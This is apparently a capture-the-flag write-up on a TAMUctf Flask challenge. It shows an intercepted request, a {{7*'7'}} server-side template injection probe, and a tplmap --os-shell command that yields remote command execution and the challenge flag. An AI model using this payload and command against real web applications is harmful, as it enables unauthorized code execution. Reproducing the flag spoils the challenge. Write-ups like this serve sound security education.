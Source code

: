 This was a web challenge with an estimated difficulty of "medium". Other than the difficulty, the only content in the challenge description was a link to the target web server.

Browsing to the web server reveals a page that reads "Welcome to my new FaaS! (Flask as a Service) Please enter the two chemicals you would like to combine: " and then two fields for Chemical One and Chemical Two. Using Burp Suite to intercept this POST request shows that the request and response look like this:

<code>
POST /science HTTP/1.1
Host: web3.tamuctf.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://web3.tamuctf.com/
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Connection: close
Upgrade-Insecure-Requests: 1

chem1=a&chem2=b


HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Mon, 04 Mar 2019 13:33:53 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 272
Connection: close

<html>
        <div style="text-align:center">
        <h3>The result of combining a and b is:</h3></br>
        <iframe src="https://giphy.com/embed/AQ2tIhLp4cBa" width="468" height="480" frameBorder="0" class="giphy-embed" allowFullScreen></iframe></div>
        </html>
</code>


Interestingly, user-provided output is reflected in the HTTP response. Given the reference to Flask, this suggested to me the possiblity of a Server-Side Teplate Injection vulnerability. To test for this futher, I made use of <a href="https://portswigger.net/blog/server-side-template-injection">this excellent blog post </a>from Portswigger.

The blog post recommends using a couple different payloads and seeing if they're interpreted by the templating engine before being reflected to the user. One of the recommended payloads is {{7*'7'}}. I sent this data via POST request:

<code>
chem1={{7*'7'}}&chem2={{7*'7'}}
</code>

The relevant portion of the response was:

<code>
The result of combining 7777777 and 7777777 is:</br>
</code>

Clearly, my input had been interpreted. This particular response indicates that the Jinja2 templating engine is in use. Rather than try to perform further exploitation by hand, I decided to take the opportunity to experiment with the tool TPLmap, which is an automated exploitation tool for SSTI vulnerabilities, much like SQLmap for SQL injection vulnerabilities. The tool can be found here:
https://github.com/epinna/tplmap

TPLmap has a feature that, after determining an injection point, will provide a pseudo-shell to the user to allow for easy remote code execution. To exploit the SSTI I'd identified, I used this command:

<code>
python tplmap.py -u "http://web3.tamuctf.com/science" -d "chem1=1&chem2=whatever" -e jinja2 --os-shell
</code>

This provided a shell, which allowed me to view the directory contents and grab the flag:

<code>
[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if POST parameter 'chem1' is injectable
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  POST parameter: chem1
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: posix-linux2
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code

[+] Run commands on the operating system.
posix-linux2 $ ls
config.py
entry.sh
flag.txt
requirements.txt
serve.py
tamuctf
posix-linux2 $ cat flag.txt
gigem{5h3_bl1nd3d_m3_w17h_5c13nc3}
</code>
